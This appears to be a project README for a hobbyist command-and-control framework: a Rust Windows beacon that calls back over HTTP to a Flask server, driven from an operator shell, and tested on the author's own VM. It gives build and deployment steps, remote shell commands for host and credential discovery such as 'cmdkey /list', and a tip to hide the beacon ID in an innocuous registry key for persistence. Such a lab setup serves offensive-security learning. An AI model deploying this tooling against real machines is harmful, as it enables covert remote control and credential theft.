

# C2 Framework Guid :D



## Setting up enviornment

1. Installing system dependencies

If you're host machine/development environment is Fedora 43:

```sh
sudo dnf install python3 python3-pip python3-venv rust cargo mingw64-gcc mingw64-binutils -y
```

2. Add rust Windows cross-compile target

Run this wherever you're `Cargo.toml` is stored (Default: `<PROJECT_PAT>/beacon-rs`).

```sh
rustup target add x86_64-pc-windows-gnu
```

3. Add linker in `config.toml`

```sh
[target.x86_64-pc-windows-gnu]
linker = "x86_64-w64-mingw32-gcc"
```

4. Install python dependencies for server

Run this in your server subdirectory where `app.py` is put.

```sh
cd server
python3 -m venv venv
source venv/bin/activate
pip install flask flask-cors rich
```

5. Build beacon

```sh
cd beacon-rs
cargo build --release --target x86_64-pc-windows-gnu
```

Windows executable beacon file is stored in `beacon-rs/target/x86_64-pc-windows-gnu/release/beacon.exe`.

You must edit your config file befor building the beacon to ensure it beacons back to the correct IP. 

1. Run `ifconfig` in your host machine
2. Copy the IP address for `WLO1` or whatever wireless interface you're using.
3. Edit the `config.rs`'s C2_HOST HTTP link with `"http://<WLO1_IP_ADDR>:8080"`.
4. Allow port 8080 through firewall (OPTIONAL): `sudo firewall-cmd --add-port=8080/tcp --permanent` and `sudo firewall-cmd --reload`

6. Downloading beacon

You can download the beacon by starting a python dev server in the path the executable is stored and download it from the VM by navigating to the VM browser and entering the server address.

```sh
cd target/x86_64-pc-windows-gnu/release
python3 -m http.server 9999

# in VM's browser
http://<HOST_IP>:9999
```

## How to run a simulation

1. Run the flask server

```sh
cd server
source venv/bin/activate
python app.py
```

Use this to monitor beacon interaction and to troubleshoot any problems you might run into beacon logic and executiong. Uses HTTP protocol. You can monitor server and beacon health using the HTTP status codes:

- `200`: OK; Everything worked normally
- `400`: Bad Request; Beacon sent malformed JSON or is missing required fields (eg. UUID)
- `404`: Not Found; Beacon UUID not in the database
- `500`: Internal Server Error; something crashed inside Flask server (eg. module import problem. FIX: modify `__init__.py`)

2. Run Operator Shell (TUI made with `Rich`)

```sh
cd <PROJECT_PATH>/server
source venv/bin/activate
python -m core.operator
```

This is where you'll poll beacon commands, and run queries for beacon health, polled commands, beacon tasks and results. 

3. Start Windows 10 VM and Run the beacon (via CMD)

```cmd
cd C:\Users\Alder\Downloads
beacon.exe
```

This will start the beacon, you do not need to type anything after this.

## Using the Shell Operator

1. List beacons

```sh
beacons
```

This will list beacons with thier UUID and other information such as it's status (Alive/Dead). Choose the UUID of a running beacon.

2. Select beacon to work with

```sh
use db7a3644
```

The beacon UUID we choose is that we're going to poll commands, query tasks and results.

3. Execute shell commands

```cmd
shell whoami
shell hostname
shell ipconfig /all
shell systeminfo
shell dir C:\
shell wmic process list brief
shell cmdkey /list
```

As you poll shell commands, you'll get each of their IDs in the output. You can use these IDs later to view the results. Alternatively, to check IDs you can run:

```sh
tasks
```

This return tasks with their IDs and status (`pending`, `sent`, `done`, `error`). If a tasks has been on pending for too long, it probably means the beacon isn't running/has crashed in the VM. Run it again and the polled commands will execute.

4. View output of specific task

```sh
results bcd079ce
```

Get ID from `tasks` and run `results <ID>`, alternatively just run `history` but it's still messy and truncates output.

5. Deselect beacon/check another one

```sh
beacons
use <UUID>
```

## Misc

To query available commands in the shell operator just run `help`. You can clear the screen with `clear` and you can exit the operator with `exit`/`quit`.

The database (c2.db) persists everything; beacons, tasks, and results survive a server restart.

Rebooting the VM does NOT invalidate the beacon running before the reboot. Each machine is given only ONE beacon which is stored in:

```cmd
C:\Users\Alder\AppData\Local\Temp\.beacon_id
```

This stored one thing; the beacon UUID. As long as this file exists, everytime you run `beacon.exe`, it reads the UUID from here, so the server recognizes it as the same beacon and all your previous tasks/history are linked to it.

In an actual engagement, store beacon somewhere table like registery `HKCU\Software\Microsoft\<something_innocent_looking>` since `%TEMP%` files might be deleted if user runs disk cleanups.

## Restarting an engagement

To reset an engagement workflow you need to:

1. Delete the database `rm c2.db`: This is automatically made the next time you run `python app.py`
2. Delete the UUID file `del %USERPROFILE%\AppData\Local\Temp\.beacon_id`: This is automatically made the next time you run `beacon.exe` in the CMD.

# Have fun!

```
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢰⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡀⠀⠀⠀⣀⡤⠴⢖⣶⣶⣤⣀⡀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡾⢧⡀⠀⠈⠁⠔⠋⠉⠁⠀⠀⠐⣎⠑⢆⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⠒⠚⠛⣧⣤⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠸⡆⠈⣇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡜⠀⠀⢀⣤⠀⠀⠀⠀⠀⠀⠀⠀⣧⠀⢼
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠀⠀⠉⠀⠀⠀⠀⠀⠀⠀⠀⣸⢤⠇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡤⠂⠉⠁⠓⢆⣀⣤⣶⣒⣲⢦⡀⠀⠧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣧⠏⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡾⠁⠀⠀⠀⠀⡼⠋⢠⢿⠿⢏⣟⢹⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣼⠃⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠁⡀⠀⠀⠀⠀⠁⠀⠀⠀⠈⢹⡿⢨⠇⠀⠀⠀⣠⣄⠀⠀⠀⠀⢀⡴⢡⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡐⣥⡀⠀⠀⠀⠀⠀⠀⠀⢀⣿⠉⡼⠁⠀⠀⣀⠳⠛⠀⠀⠀⣠⠟⢠⠏⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⡇⢿⣷⢆⣀⠀⣀⠀⠀⢠⠟⠀⠘⠁⠀⠀⠀⠉⠀⠀⠀⠀⣰⠋⣠⠟⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⠈⢽⣿⠿⢼⣾⣿⠾⢀⡴⠄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠼⠋⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠺⠂⠀⠀⠀⠀⢠⡉⠟⡻⣛⡧⠞⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⠞⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⠶⢦⡀⠀⠀⠀⠀⠀⠀⠈⠛⠋⠁⠀⠀⠀⠀⠀⣀⠀⠀⣀⠀⠀⠀⣠⡾⢋⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠓⠛⠀⠀⠀⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠛⠁⠈⠛⠁⣠⡶⠋⢰⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢐⢻⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡼⠋⠀⣰⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⠆⠀⠀⣠⠞⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡀⠀⢾⢸⠀⢀⡄⠀⠀⠀⠀⠀⠀⠀⢀⡴⠋⠀⠀⡴⠚⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⡦⡟⠸⡧⣾⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⣀⣀⡀⠀⠀⣀⣀⡤⣤⡴⠒⠃⠁⠀⠑⠓⡒⢲⣖⣒⡦⠤⠀⠘⠉⠁⠛⡚⠒⠢⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⡠⢖⣿⠟⠚⠀⠀⠀⠀⠈⠉⠉⠉⢩⣟⡆⢀⣆⡖⠛⠉⠁⠀⠀⣀⣀⣠⠤⠴⢒⣉⡠⠜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠑⠦⠬⣭⣙⣓⣒⣒⣒⣒⣂⣀⣰⣿⠉⡷⣴⣎⣺⣌⣋⣉⣩⠭⠥⠴⠖⠒⠋⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠀⠀⠀⠀⢿⢸⡆⠀⠀⠀⠀⢠⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢰⠀⠀⢸⢸⠀⠀⠀⠀⠀⠘⠚⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡟⠀⠀⢀⣾⠀⠀⠀⣠⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⣰⠋⣠⠏⠀⠀⠀⠈⣿⠀⠀⠀⠉⠀⣠⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣰⢇⡼⠋⠀⠀⠀⠀⠀⢿⠀⠀⠀⠀⠀⠛⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⢠⣷⠟⠁⠀⠀⠀⠀⠀⠀⠈⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⡾⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⣤⣀⡀⠀⢀⡶⠿⣟⣦⡉⠳⡀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⡼⡇⠀⠀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⠞⣏⣶⣞⣦⣄⣉⠷⣏⠀⠘⠚⠛⢻⣄⢻⡀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢰⠃⡇⠀⠀⠻⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢰⢻⣾⣿⣯⣛⡿⡟⠳⠃⠀⠀⠀⠀⠀⠀⠙⠈⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢾⠀⢳⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⠀⠀⡏⣘⣻⣤⣿⠁⠐⠀⠀⠀⠀⠀⠀⠀⠀⢀⣶⢰⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠸⡄⠈⢧⠀⠀⠀⢠⡀⠀⠀⠀⠀⠀⠛⠁⠀⠀⣇⢨⣿⣿⠗⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⡏⣸⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠙⣤⡈⢳⡀⠀⢸⠀⠀⠀⢼⠶⠀⠀⠀⠀⠀⢹⡀⢹⣮⣏⠆⡀⠀⠀⠀⠀⠀⢰⣶⣿⣿⠅⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠁⣀⢙⣦⣸⣾⣇⣀⠀⠀⠀⠀⣀⡤⠖⠀⢳⠄⠛⢿⣽⣠⠀⠀⠀⠀⠀⠘⣼⣻⡾⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣨⢻⠝⠲⠤⣄⣛⣚⣉⣁⣀⣀⣀⣀⡤⠴⠂⠐⠹⠳⣷⣀⠀⢈⣯⡿⢟⣰⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢠⠾⠁⢸⡄⠀⠀⠀⠀⠀⠀⠉⠈⠀⠀⠀⠀⠀⠀⠀⠢⣄⡀⠈⠁⠐⠘⢀⡴⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠋⠀⠀⠸⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠙⠓⠒⠒⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
```